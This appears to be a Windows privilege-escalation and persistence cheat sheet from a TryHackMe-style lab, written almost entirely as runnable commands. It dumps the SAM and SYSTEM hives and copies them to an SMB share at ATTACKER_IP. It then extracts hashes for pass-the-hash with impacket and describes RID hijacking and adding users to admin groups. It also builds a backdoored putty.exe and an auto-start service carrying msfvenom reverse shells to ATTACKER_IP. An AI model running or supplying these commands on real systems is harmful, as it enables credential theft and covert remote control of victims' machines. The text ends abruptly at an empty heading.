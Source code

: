 # SeBackup / SeRestore (Pass the hash through SMB share and Registry dump)
*The SeBackup and SeRestore privileges allow users to read and write to any file in the system, ignoring any DACL in place.*
`reg save hklm\system C:\Users\THMBackup\system.hive`
`reg save hklm\sam C:\Users\THMBackup\sam.hive` *Dump the registry SAM and SYSTEM hashes*
`mkdir share`
`python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share`*Create a share between the machines*
`copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\`
`copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\` *Copy the files to the share*
`python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL`*Use impacket to retrieve the users' password hashes*
`python3.9 /opt/impacket/examples/psexec.py -hashes `*Pass-the-Hash attack and gain access to the target machine with SYSTEM privileges*
# RID Hijacking
`wmic useraccount get name,sid` Check the SID (Remember 500 is admin)
`PsExec64.exe -i -s regedit` *Run regedit as System through PsExec*
**From Regedit, we will go to `HKLM\SAM\SAM\Domains\Account\Users\` where there will be a key for each user in the machine. Since we want to modify thmuser3, we need to search for a key with its RID in hex (1010 = 0x3F2). Under the corresponding key, there will be a value called F, which holds the user's effective RID. Notice the RID is stored using little-endian notation, so its bytes appear reversed. We will now replace those two bytes with the RID of Administrator in hex (500 = 0x01F4), switching around the bytes (F401):**


###### Persistence #########
`net localgroup administrators thmuser0 /add`
`net localgroup "Remote Management Users" thmuser1 /add`

# Backdooring files
`msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe`

# Persisting through services
`sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto `*Create a service*

# Create Services with rev shell

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe
sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start THMservice`

# Replaces Service executables
